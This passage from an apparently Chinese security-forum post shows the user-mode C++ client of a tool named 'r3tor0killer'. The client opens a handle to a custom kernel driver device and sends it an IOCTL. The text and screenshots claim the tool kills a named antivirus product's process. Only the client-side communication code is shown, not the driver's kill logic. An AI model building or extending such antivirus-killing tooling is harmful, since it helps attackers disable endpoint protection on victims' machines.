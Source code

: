 ```c++
// r3tor0killer.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <winioctl.h>

#define SYMBOLICLINK_NAME L"\\\\.\\HbgDevLnk"
#define OPER1 CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ANY_ACCESS)
#define OPER2 CTL_CODE(FILE_DEVICE_UNKNOWN,0x900,METHOD_BUFFERED,FILE_ANY_ACCESS)
#define IN_BUFFER_MAXLENGTH 4
#define OUT_BUFFER_MAXLENGTH 4

int main()
{
    // 获取设备句柄
    HANDLE hDevice =CreateFileW(SYMBOLICLINK_NAME, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
    DWORD dwError = GetLastError();
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("获取设备句柄失败 %d\n", dwError);  // 如果返回1，在驱动中指定 IRP_MJ_CREATE 处理函数
        getchar();
        return 1;
    }
    else
    {
        printf("获取设备句柄成功 \n");
    }
    // 测试通信
    DWORD dwInBuffer = 0x850;
    DWORD dwOutBuffer = 0;
    DWORD dwOut;
    DeviceIoControl(hDevice, OPER2, &dwInBuffer, 
                    IN_BUFFER_MAXLENGTH,
                    &dwOutBuffer, 
                    OUT_BUFFER_MAXLENGTH, &dwOut, NULL);
    printf("dwOutBuffer: %08X dwOut: %08X\n", dwOutBuffer, dwOut);
    // 关闭设备
    CloseHandle(hDevice);
    return 0;
}
```

实现效果如下

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-aeb2786a030aad9bcb9f811552f22ec8ac21c828.jpg)

这里启动驱动并在ring3去连接设备，可以看到从ring3返回了信息到了控制台，可以证明连接设备成功

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-0ceb96b7715bcc91457b16e9b8a0add8d47f49fe.jpg)

可以看到已经成功kill掉了某绒进程

![](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-c1e1d7a59d95b696eb0806dba0bc9b95148c4c31.jpg)